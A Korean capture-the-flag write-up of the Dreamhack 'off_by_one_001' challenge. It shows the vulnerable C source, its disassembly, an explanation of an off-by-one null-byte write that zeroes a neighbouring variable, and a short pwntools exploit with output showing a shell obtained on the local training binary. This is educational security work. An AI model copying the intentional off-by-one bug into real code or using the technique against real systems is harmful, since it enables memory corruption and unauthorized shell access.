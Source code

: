 # off_by_one_001

- [문제 페이지](https://dreamhack.io/wargame/challenges/10)

## 문제 해설

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_str(char *ptr, int size)
{
    int len;
    len = read(0, ptr, size);
    printf("%d", len);
    ptr[len] = '\0';
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char name[20];
    int age = 1;

    initialize();

    printf("Name: ");
    read_str(name, 20);

    printf("Are you baby?");

    if (age == 0)
    {
        get_shell();
    }
    else
    {
        printf("Ok, chance: \n");
        read(0, name, 20);
    }

    return 0;
}
```

```bash
   0x08048654 <+0>:     push   ebp
   0x08048655 <+1>:     mov    ebp,esp
   0x08048657 <+3>:     sub    esp,0x18
   0x0804865a <+6>:     mov    DWORD PTR [ebp-0x4],0x1
   0x08048661 <+13>:    call   0x80485c2 <initialize>
   0x08048666 <+18>:    push   0x8048754
   0x0804866b <+23>:    call   0x8048420 <printf@plt>
   0x08048670 <+28>:    add    esp,0x4
   0x08048673 <+31>:    push   0x14
   0x08048675 <+33>:    lea    eax,[ebp-0x18]
   0x08048678 <+36>:    push   eax
   0x08048679 <+37>:    call   0x8048609 <read_str>
   0x0804867e <+42>:    add    esp,0x8
   0x08048681 <+45>:    push   0x804875b
   0x08048686 <+50>:    call   0x8048420 <printf@plt>
   0x0804868b <+55>:    add    esp,0x4
   0x0804868e <+58>:    cmp    DWORD PTR [ebp-0x4],0x0
   0x08048692 <+62>:    jne    0x804869b <main+71>
   0x08048694 <+64>:    call   0x8048641 <get_shell>
   0x08048699 <+69>:    jmp    0x80486b8 <main+100>
   0x0804869b <+71>:    push   0x8048769
   0x080486a0 <+76>:    call   0x8048450 <puts@plt>
   0x080486a5 <+81>:    add    esp,0x4
   0x080486a8 <+84>:    push   0x14
   0x080486aa <+86>:    lea    eax,[ebp-0x18]
   0x080486ad <+89>:    push   eax
   0x080486ae <+90>:    push   0x0
   0x080486b0 <+92>:    call   0x8048410 <read@plt>
   0x080486b5 <+97>:    add    esp,0xc
   0x080486b8 <+100>:   mov    eax,0x0
   0x080486bd <+105>:   leave
   0x080486be <+106>:   ret
```

코드와 어셈블리를 살펴보면, age가 0이면 shell을 얻을 수 있다. 

어셈블리 상에서 age는 $ebp-0x4, name은 $ebp-0x18에 위치한다. 

또한, read_str의 함수에서 read의 리턴값인 len에 name을 더해 name+len의 위치에 0을 삽입하고 있다.

따라서, 0x18과 0x4의 차이인 name + 20 위치에 0을 삽입하면 age가 0이 되어 shell을 얻을 수 있다.

이때, read의 리턴값은 read를 통해 읽은 입력의 갯수이기 때문에 20개의 아무 문자를 보내면 shell을 얻을 수 있을 것이다.

이를 파이썬 코드로 구현하면 

```python
from pwn import *

p = process("./off_by_one_001")

p.send(b"a"*20)
p.interactive();
```

이며, 이를 실행하면

```bash
[+] Starting local process './off_by_one_001': pid 4190
[*] Switching to interactive mode
Name: 20Are you baby?$ ls
README.md  exploit.py  off_by_one_001  off_by_one_001.c
$ exit
[*] Got EOF while reading in interactive
```

쉘을 획득할 수 있다.

![result](image.png)